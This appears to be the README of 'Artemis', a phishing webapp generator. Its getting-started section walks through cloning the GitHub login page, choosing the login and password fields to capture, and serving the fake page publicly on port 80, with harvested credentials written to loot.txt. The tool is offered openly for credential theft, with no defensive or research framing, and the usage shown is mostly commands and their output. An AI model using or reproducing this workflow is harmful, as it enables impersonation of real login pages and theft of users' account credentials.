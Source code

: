 # Artemis
Phishing webapp generator

## Getting started

```
$ pip install -r requirements.txt

$ ./builder.py 'https://github.com/login'
[*] Found forms:
FORM 0 --> /session
Form to log: 0
Selected form 0

[*] Form fields:
0 - utf8
1 - authenticity_token
2 - login
3 - password
4 - commit
Fields to log (space separated): 2 3
Logging: ['login', 'password']

[*] Phishing page ready !
cd app && python app.py runserver to get started

$ cd app/
$ python app.py runserver -h 0.0.0.0 -p 80
```

Gathered credentials are stored in loot.txt.

